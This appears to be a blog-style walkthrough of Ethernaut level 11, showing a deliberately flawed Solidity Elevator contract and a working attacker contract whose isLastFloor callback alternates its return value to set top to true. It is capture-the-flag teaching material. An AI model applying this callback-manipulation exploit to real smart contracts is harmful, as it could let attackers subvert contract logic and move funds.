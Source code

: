 # Level 11: Building

This is the level 11 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- Solidity [interfaces](https://docs.soliditylang.org/en/v0.8.10/contracts.html#interfaces)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

`player` has to set `top` to `true` i.e. have to reach top of the building.

But `Elevator` won't let you.... if you comply by the `Building` so religiously. So let's not get so disciplined ;)

Alright so, `goTo` calls the contract at `msg.sender` address that implements `Building` interface to determined if `_floor` is last floor.

Okay, then we'll create a contract `MyBuilding` that inherits `Building` and therefore implements `isLastFloor`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

interface IElevator {
    function goTo(uint _floor) external;
}

contract MyBuilding is Building {
    bool public last = true;

    function isLastFloor(uint _n) override external returns (bool) {
        last = !last;
        return last;
    }

    function goToTop(address _elevatorAddr) public {
        IElevator(_elevatorAddr).goTo(1);
    }
}
```

But...although we did implement `isLastFloor` we won't use `_floor` param anywhere to determine if it's last floor. We are not obliged to anyway ;)

We just alternate between returning `true` and `false`, so that 1st call will return `false` and 2nd call returns `true` and so on.

Simply call `goToTop` of `MyBuilding`, with `contract.address` of instance. That'll trigger `Elevator` to call `isLastFloor` of our contract - `MyBuilding`. And since second call sets `top` variable, it is set to `true`.

Verify in console:
```javascript
await contract.top()

// Output: true
```

Started from the bottom now we here (`top`) !

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
